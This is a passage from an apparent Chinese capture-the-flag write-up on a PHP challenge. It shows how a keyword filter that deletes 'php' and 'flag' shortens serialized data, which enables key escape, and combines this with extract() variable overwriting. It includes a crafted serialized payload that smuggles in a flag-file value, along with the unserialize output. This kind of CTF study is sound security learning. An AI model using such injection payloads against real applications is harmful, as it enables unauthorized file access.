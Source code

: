 也就是`$userinfo['img']`=ZDBnM19mMWFnLnBocA==

但是在这里：

```ph
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
```

如果直接传入，会进行sha1处理，自然无法利用


```
extract会导致变量覆盖
```

filter函数会将`’php’,‘flag’,‘php5’,‘php4’,'fl1g’`等关键字替换成空导致长度少导致逃逸。

键逃逸例子：
```
a:2:{s:7:"phpflag";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

结果：

```
Array
(
    [phpflag] => ;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
    [img] => Z3Vlc3RfaW1nLnBuZw==
)
```

Filter之后：
```
a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

结果：

```
Array
(
    [";s:48:] => 1
    [img] => ZDBnM19mMWFnLnBocA==
)
```

尝试构造：

首先构造所需字符串：


![](https://img-blog.csdnimg.cn/20210616162510469.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
反序列化进行进一步构造
